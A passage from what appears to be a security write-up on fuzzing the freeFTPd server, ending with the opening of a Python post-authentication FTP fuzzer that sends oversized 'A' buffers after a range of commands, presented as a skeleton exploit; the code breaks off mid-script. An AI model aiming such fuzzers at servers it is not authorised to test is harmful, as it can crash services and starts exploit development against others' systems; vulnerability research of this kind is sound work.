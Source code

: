 ![screenshot](/assets/img/freeftpd/msf_ftp_fuzz.PNG)

So I copy-pasted all of those FTP commands into a Spike template that looked like this:

![screenshot](/assets/img/freeftpd/spike_fuzz.PNG)

Unfortunately, nothing broke outright; however, I did notice that the application became REALLY slow after running Spike, so I decided to write my own fuzzer to have a little better understanding of what I was sending. This also became a skeleton exploit for later use.

```python
#!/usr/bin/env python
"""
Description: Post-Authentication FTP Fuzzer
Author: Cody Winkler
Contact: @cwinfosec (twitter)
Date: 11/26/2019
"""

import socket
from struct import pack
import sys

host = sys.argv[1]
port = int(sys.argv[2])


username = "USER anonymous\r\n"
password = "PASS test\r\n"

buffer = "A"*1000
buffer += "\r\n"

commands = ["STOR ", "SIZE ", "SYST ", "MLIST ", "PWD ", "DIR ", "UMASK ", "RENAME ", "ACCT ", "ABOR ", "HOST ", "APPE ", "RMD ", "LS ", "GET ", "PUT ", "PASS "]

try:
    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```